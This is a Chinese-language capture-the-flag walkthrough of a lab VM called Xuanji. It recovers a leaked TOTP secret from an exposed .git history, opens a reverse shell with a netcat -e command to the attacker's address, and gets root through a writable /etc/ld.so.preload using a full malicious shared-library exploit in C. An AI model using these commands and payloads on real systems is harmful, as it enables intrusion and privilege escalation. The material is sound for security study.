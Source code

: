 ![image-20250807122524603](http://7r1UMPHK.github.io/image/20250807122557994.webp)

# **一、信息收集**

## 1. 主机发现与端口扫描

首先在本地网络中使用 `arp-scan` 确定目标主机的IP地址，随后利用 `nmap` 对其进行全端口扫描，以识别开放的服务。

**主机发现:**

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.135 08:00:27:03:7d:ae       PCS Systemtechnik GmbH
...
```

**端口扫描:**

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.135
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果表明，目标主机IP为 `192.168.205.135`，开放了 **22 (SSH)** 和 **80 (HTTP)** 端口。

## 2. Web服务侦察

访问80端口的Web服务，发现是一个要求输入Google OTP（动态口令）的登录页面。这表明身份验证是进入系统的首要障碍。

# **二、漏洞发现与利用**

## 1. 发现`.git`源码泄露

针对Web目录进行深度扫描，发现存在一个公开的 `.git` 目录。这是一个严重的信息泄露漏洞，意味着整个Web应用的源代码和版本控制历史都可能被获取。

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://192.168.205.135 
...
[00:31:43] 301 -  317B  - /.git  ->  http://192.168.205.135/.git/
...
```

## 2. 还原Git仓库并审计历史记录

使用 `git-dumper` 工具将泄露的 `.git` 仓库完整地下载到本地。

```bash
┌──(kali㉿kali)-[/tmp]
└─$ git-dumper http://192.168.205.135 .
...
[-] Running git checkout .
从索引区更新了 1 个路径
```

进入还原后的仓库目录，使用 `git log -p` 命令审查提交历史。在历史记录中发现了一个关键线索：开发人员曾将一个字符串作为注释添加到了 `index.php` 文件中，随后又在下一次提交中将其删除。

```bash
┌──(kali㉿kali)-[/tmp]
└─$ git log -p
...
commit 189e0034eedd9d026e9d691c9782c72ee51940a1
Author: Your Name <you@example.com>
...
-<!-- 3XKWRL4MDQ5YYPZSYBPDGFLHFA  -->

commit 3dc42d3b5f90552544550d2e09b661fcb114bfe4
Author: Your Name <you@example.com>
...
+<!-- 3XKWRL4MDQ5YYPZSYBPDGFLHFA  -->
...
```

这个被添加后又删除的字符串 `3XKWRL4MDQ5YYPZSYBPDGFLHFA` 符合Base32编码格式，极有可能是用于生成Google Authenticator动态口令的**共享密钥 (TOTP Secret Key)**。

### 3. 初始访问：利用TOTP密钥登录

利用在线TOTP生成工具（如`https://totp.skae.top/`），将获取到的密钥输入，即可实时生成有效的6位动态口令。

使用生成的动态口令成功登录系统，进入一个后台的Web Shell（命令执行窗口）。

### 4. 获取稳定Shell

Web Shell 使用起来极为不便，因此通过执行反向shell命令，在本地Kali攻击机上获取一个稳定的、交互式的 `www-data` 用户权限Shell。

**本地监听:**

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
```

**Web Shell中执行:**

```sh
busybox nc 192.168.205.128 -e /bin/bash
```

成功接收到反弹shell后，通过 `script` 和 `stty` 等命令将其升级为功能完整的TTY终端。

# **三、权限提升**

## 1. 发现提权向量

在获取 `www-data` shell后，上传并运行自动化Linux提权检查脚本 `linpeas.sh`。分析其输出报告，发现一个致命的配置错误。

```
╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#ldso
...
You have write privileges over /etc/ld.so.preload
```

`www-data` 用户对 `/etc/ld.so.preload` 文件拥有写入权限。该文件用于指定在任何程序运行前需要预加载的动态链接库。这是一个经典的、高成功率的Linux提权向量。

## 2. 利用`ld.so.preload`实现提权

1. **编写恶意代码**: 在 `/tmp` 目录下创建一个名为 `exp.c` 的C语言文件，其功能是在库被加载时，将当前进程的权限提升为root，并启动一个bash shell。

   ```c
   #include <stdio.h>
   #include <sys/types.h>
   #include <unistd.h>
   #include <stdlib.h>
   
   void __attribute__((constructor)) init() {
       unlink("/etc/ld.so.preload");
   
       setgid(0);
       setuid(0);
   
       execl("/bin/bash", "bash", "--norc", "--noprofile", NULL);
   
   
       execl("/bin/sh", "sh", NULL);
   }
   ```

2. **编译共享库**: 使用 `gcc` 将C代码编译成一个共享库文件 `exp.so`。

   ```bash
   www-data@Xuanji:/tmp$ gcc -fPIC -shared -o exp.so exp.c -nostartfiles
   ```

3. **触发Payload**: 将我们恶意共享库的路径写入 `/etc/ld.so.preload` 文件。

   ```bash
   www-data@Xuanji:/tmp$ echo "/tmp/exp.so" > /etc/ld.so.preload
   ```

4. **激活提权**: 执行任何一个以root权限运行的SUID程序（如`sudo`）来触发预加载。

   ```bash
   www-data@Xuanji:/tmp$ sudo -l
   ```

   该命令会立即被我们预加载的库劫持，从而以root权限执行 `exp.so` 中的代码。

## 3. 夺取旗帜

成功获取 `root` 权限的shell后，直接读取用户和根目录下的旗帜文件。

```bash
bash-5.0# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
bash-5.0# cat /root/root.txt /home/ahiz/user.txt 
flag{root-076ffb6ef92e5709fc8eda05872419e5}
flag{user-60b725f10c9c85c70d97880dfe8191b3}
```

渗透测试完成。

# 题外话

Google OTP那里，你可以做一回爆破仙人，已知Google OTP是6位数字，30s更新一次

所以直接爆破，有极大概率爆破的出来

![image-20250807122825244](http://7r1UMPHK.github.io/image/20250807122825458.webp)

![image-20250807123315958](http://7r1UMPHK.github.io/image/20250807123316264.webp)

这是也是一个办法，当然这是非常规思路

